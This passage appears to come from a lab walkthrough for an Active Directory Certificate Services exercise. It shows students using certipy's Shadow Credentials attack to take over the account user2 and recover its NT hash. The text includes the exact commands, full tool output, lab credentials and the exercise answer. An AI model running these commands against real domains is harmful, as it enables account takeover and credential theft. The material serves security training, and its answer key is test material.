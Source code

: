 Before abusing `ESC9` and using the `Shadow Credentials` technique, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Subsequently, to takeover the `user2` user with `Shadow Credentials` (which is possible due to the user `blwasp` having `FullControl` over `user2`, allowing `certipy` to request the TGT for `user2` and `Un-PAC-the-hash` within it), students need to use the `shadow` command of `certipy` along with the `auto` positional argument, specifying `user2` for the `-account` option; students will attain the NT hash `ee22ddf0f8a66db4217050e6a948f9d6` for the `user2` user:

Code: shell

```shell
certipy shadow auto -u blwasp@lab.local -p Password123! -account user2
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy shadow auto -u blwasp@lab.local -p Password123! -account user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'user2'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5'
[*] Adding Key Credential with device ID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5' to the Key Credentials for 'user2'
[*] Successfully added Key Credential with device ID 'bddd49f4-baa6-4f7f-e04c-4d87cf381bc5' to the Key Credentials for 'user2'
[*] Authenticating as 'user2' with the certificate
[*] Using principal: user2@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user2.ccache'
[*] Trying to retrieve NT hash for 'user2'
[*] Restoring the old Key Credentials for 'user2'
[*] Successfully restored the old Key Credentials for 'user2'
[*] NT hash for 'user2': ee22ddf0f8a66db4217050e6a948f9d6
```

Answer: `ee22ddf0f8a66db4217050e6a948f9d6`

# ESC9
